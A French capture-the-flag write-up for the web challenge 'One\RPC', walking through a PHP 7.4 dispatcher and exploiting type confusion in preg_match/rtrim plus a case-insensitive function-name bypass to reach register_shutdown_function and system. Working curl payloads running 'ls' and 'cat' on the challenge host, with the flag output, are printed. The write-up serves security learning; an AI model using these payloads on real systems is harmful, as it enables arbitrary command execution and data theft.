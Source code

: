 > Name: One\\RPC
> 
> Category:  Web
> 
> Difficulty: Medium/Hard
> 
> Description: 
> *One\RPC seems to be a new promising open source project. But can it be simple, powerful and secure at the same time ?*
> 
> *Review the source code of this project and help the community by finding a critical vulnerability.*

![preview](onerpc_preview.png)

**One\RPC** est un projet Open Source visant à simplifier et accélérer le développement des API. L'idée est qu'il y ait un unique endpoint POST où l'on envoie un seul JSON contenant trois champs :

```
{
    "api": "le nom du namespace de l'API",
    "func": "le nom de la méthode à appeler dans ce namespace",
    "args": [
	    "parametre 1",
	    "parametre 2",
	    "..."
    ]
}
```

Un exemple d'appel à cette api est :

```
$> curl -X POST 'http://challs:40006/demo-rpc/' --data-raw 
'{ "api" : "Greeting", "func": "welcome", "args": [ "Chuck" ] }'
```

Est-ce qu'il serait possible d'exécuter du code arbitraire ?

Tout d'abord, il est important de noter que la demo tourne en `PHP 7.4`  !

Le code source du projet demo à la structure suivante :
```
|__ API/    <- Les fichiers API à charger
|
|__ Public/ <- Dossier à exposer sur le webserveur
|	|__ index.php
|
|__ deps_loader.php <- chargeur automatique des fichiers de l'API
|__ dispatcher.php  <- le "routeur" de OneRPC

```

L'essentiel du projet se passe dans la fonction `call_api` du fichier `dispatcher.php` :

```php
function check_forbidden_func($func_name) {
    if (array_search($func_name, get_defined_functions()["internal"]) !== false) {
        throw new Exception("Forbidden function name.");
    }
}

function call_api($json) {

    if (empty($json->api) || preg_match('/^[\\\\]|[^a-zA-Z0-9\\\\]/', $json->api) === 1) {
        throw new Exception("Invalid 'api' endpoint.");
    }
    $json->api = rtrim($json->api, '\\');

    $json->func = "register_{$json->func}";
    check_forbidden_func($json->func);

    $api_func = "{$json->api}\\{$json->func}";
    if (function_exists($api_func) === false) {
        throw new Exception("Unknown function $api_func");
    }

    return $api_func(...(empty($json->args) ? [] : $json->args));
}
```

`$api_func` est une concaténation du namespace `$json->api` et de la fonction `register_${json->func}` ce qui donne par exemple : `Greeting\register_welcome`.

On va dans un premier temps essayer d'enlever la partie namespace :

```php
if (empty($json->api) || preg_match('/^[\\\\]|[^a-zA-Z0-9\\\\]/', $json->api) === 1) {
	throw new Exception("Invalid 'api' endpoint.");
}
$json->api = rtrim($json->api, '\\');
```

Dans ce code il y a trois problèmes :
1. "$json->api" n'est pas vérifié en tant que string
2. preg_match en PHP 7.4 émet un warning quand le deuxieme paramètre n'est pas une string et retourne false
3. rtrim en PHP 7.4 retourne NULL quand les types de paramètre ne sont pas du bon type

Cet extrait de JSON bypass cette partie et permet d'avoir NULL dans `$api_json` :

```
"api": [ "foo" ]
```

Pour pouvoir appeler une fonction native de PHP, il faut désormais contourner cette partie :

```php
$json->func = "register_{$json->func}";
check_forbidden_func($json->func);
```

Il faut trouver une fonction php native qui commence par `register_`. Pour cela, il suffit d'aller sur la documentation PHP et d'en trouver :

![docphp](onerpc_docphp.png)

https://www.php.net/manual/en/function.register-shutdown-function => permet d'appeler une fonction à la fin d'exécution du script

Le problème c'est que le nom de cette fonction est détectée dans la vérification "check_forbidden_func" qui récupère le nom de toutes les fonctions internes PHP et le compare avec notre fonction... Sauf qu'en PHP, les noms des fonctions ne sont pas sensibles à la casse (contrairement aux nom de variable) =)

Donc nouveau bypass avec :

```
{
	"api": [ "foo" ],
	"func": "sHuTdOwN_function"
}
```

Maintenant il ne reste plus qu'à utiliser les bons paramètres :

```
{
	"api": [ "foo" ],
	"func": "sHuTdOwN_function",
	"args": ["system", "<command>"]
}
```


Flag :

```
$> curl -X POST 'http://challs:40006/demo-rpc/' --data-raw 
'{ "api" : [ "foo" ], "func": "sHuTdOwN_function", "args": ["system", "ls"] }'

{
    "result": null
}
0>___FLAG___<0
demo-rpc
front
html

$> curl -X POST 'http://challs:40006/demo-rpc/' --data-raw 
'{ "api" : [ "foo" ], "func": "sHuTdOwN_function", "args": ["system", "cat 0*/*"] }'

{
    "result": null
}
ALG{N4M3594C3_42817242Y_C0D3_3X3CU710N_4FUN}                                           
```
